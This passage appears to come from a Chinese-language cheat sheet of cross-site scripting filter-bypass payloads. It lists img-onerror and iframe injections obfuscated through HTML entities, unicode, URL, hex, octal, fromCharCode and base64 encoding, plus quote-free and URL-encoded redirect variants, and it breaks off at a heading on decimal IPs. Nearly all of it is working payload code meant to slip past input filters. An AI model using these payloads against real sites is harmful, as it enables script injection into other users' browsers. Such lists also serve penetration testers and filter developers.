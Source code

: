 ```html
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">

<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">
```

url编码绕过

```html
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```

Ascii码绕过

```html
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
```

hex绕过

```html
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
```

八进制

```html
<img src=x onerror=alert('\170\163\163')>
```

base64绕过

```html
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

#### 过滤双引号，单引号

1.如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号

```html
<img src="x" onerror=alert(`xss`);>
```

2.使用编码绕过，具体看上面我列举的例子，我就不多赘述了



#### 过滤url地址

**使用url编码**

```html
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>
```

**使用IP**

十进制
